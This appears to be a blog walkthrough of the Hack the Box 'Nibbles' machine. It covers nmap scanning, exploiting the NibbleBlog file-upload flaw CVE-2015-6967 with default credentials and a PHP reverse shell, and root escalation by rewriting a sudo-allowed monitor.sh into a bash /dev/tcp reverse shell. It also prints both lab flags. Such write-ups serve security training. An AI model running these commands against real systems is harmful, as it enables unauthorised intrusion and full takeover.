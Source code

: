 ```yaml
---
title: Nibbles - Hack the Box
date: 2024-10-13 12:37:45 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Nibbles.png
---
```

![Image](/assets/Nibbles.png)

Nibbles is a very smooth box that runs close to HTB standards for easier machines... Thorough web enumeration and simple privilege escalation. Let's get it.
### Scan
```
└─# nmap -sV -sC --open -p- 10.10.10.75
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-09 20:19 EDT
Nmap scan report for 10.10.10.75
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.30 seconds

```

### Enumeration

This box has two connections on ports 22 and 80, running their respective services. You know how I feel about SSH, so we'll start with port 80.

##### 80 - NibbleBlog

![Image](/assets/Screenshot 2024-09-09 at 8.31.49 PM.png)

The landing page of the website doesn't give us much. However, when we take a closer look, we're given a bone. Using this newfound directory, we can feed feroxbuster (I know, no gobuster anymore) our parameters and get a lot of information.

![Image](/assets/Screenshot 2024-09-09 at 8.35.09 PM.png)

Moseying around some of these yields very valuable information, including usernames and versions. The kicker, though, comes from doing our research online.

![Image](/assets/Screenshot 2024-09-09 at 8.39.23 PM.png)

We find out about CVE-2015-6967, which allows us to upload unrestricted files to the server, and access via `content/private/plugins/my_image/image.php`. We also can find a python script built for this blog specifically, and even some credentials hanging around... (I'll take it!)

![Image](/assets/Screenshot 2024-09-09 at 8.56.20 PM.png)

### Initial Access

Downloading the script, we need to find a PHP reverse shell that we can couple with it, because the script will give us access to our payload through the server. I used: `/usr/share/laudanum/php/php-reverse-shell.php`. Once the parameters are configured with hosts and credentials, set up a wrapped listener and fire away.

`rlwrap nc -nlvp XXXX`

`exploit.py  -l http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload php-reverse-shell.php`

Once we have a shell, we need to stabilize it

![Image](/assets/Screenshot 2024-09-09 at 8.59.27 PM.png)

Then, we can navigate to the home directory for our flag.

`USER:2df045e9e5b920914459d4ae04491c9b`

### Privilege Escalation

Once in our shell and looking to move vertically, we can run `sudo -l` to get an idea of what we can and cannot do. As seen below, we've got access to the `monitor.sh` executable, which is great news for us.

![Image](/assets/Screenshot 2024-09-09 at 9.00.01 PM.png)

All that needs to be done is overwrite the original script with a Bash one-liner pointing to another listener that we have set up on our Kali box.

The directory is hidden behind a zip file, so unzip.

![Image](/assets/Screenshot 2024-09-09 at 9.04.05 PM.png)

Then, rewrite the script using the line below. `nano` and `vim` were being very touchy, so I just used `echo`.

```
echo -e '#!/bin/bash

# Define the IP address and port of the remote listener
REMOTE_IP="10.10.14.3" # Replace with your IP
REMOTE_PORT="9001"        # Replace with your desired port

# Ensure the script is running with root privileges
if [[ "$EUID" -ne 0 ]]; then
  echo "Please run this script as root."
  exit 1
fi

# Attempt to open a reverse shell using netcat
echo "Opening a reverse shell to $REMOTE_IP:$REMOTE_PORT..."
/bin/bash -i >& /dev/tcp/$REMOTE_IP/$REMOTE_PORT 0>&1' > monitor.sh
```

Once you've popped the root shell, `cd` to the directory and grab your flag.

`ROOT:1b7cbd064fd08f66523ddc338bf1b985`

#easy #linux #manual 
